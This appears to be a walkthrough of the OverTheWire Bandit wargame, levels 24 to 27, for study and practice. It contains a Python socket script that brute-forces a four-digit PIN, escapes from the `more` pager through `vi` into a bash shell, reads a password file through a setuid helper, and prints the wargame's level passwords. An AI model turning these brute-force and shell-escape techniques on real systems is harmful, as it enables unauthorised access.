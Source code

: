 Full code in python:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024)
for i in range(0,9999):
    pin = str(i).zfill(4)
    if i%100 == 0:
      print('Sending '+pin)
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+pin+'\n'))
    data = s.recv(1024).decode()
    if not data.startswith('Wrong'):
      print('PIN '+pin+': 'data)
      exit()
```
```terminal
Sending 0000
Sending 0100
Sending 0200
Sending 0300
PIN 0378: Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### Level 25 - Custom shell
```bash
ssh -p 2220 bandit25@bandit.labs.overthewire.org
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG http://overthewire.org/wargames/bandit/bandit26.html
```

Exploit of the `more` command by reducing terminal's height so `more` hangs. This way we can execute command such as `v` to fire up a `vi` editor.

Then in `vi`:
```
:set shell=/bin/bash`
:shell
$ id
uid=11026(bandit26) gid=11026(bandit26) groups=11026(bandit26)
```

### Level 26 -
```bash
Connect from previous level
```
```bash
$ ls
bandit27-do  text.txt
$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

## Level 27 - `git clone`
```bash
ssh -p 2220 bandit27@bandit.labs.overthewire.org
# 3ba3118a22e93127a4ed485be72ef5ea http://overthewire.org/wargames/bandit/bandit28.html
```
```bash
$ cd $(mktemp -d)
$ git clone ssh://bandit27-git@localhost/home/bandit27-git/repo && ls repo
README
$ cat repo/README
The password to the next level is: 0ef186ac70e04ea33b4c1853d2526fa2
```
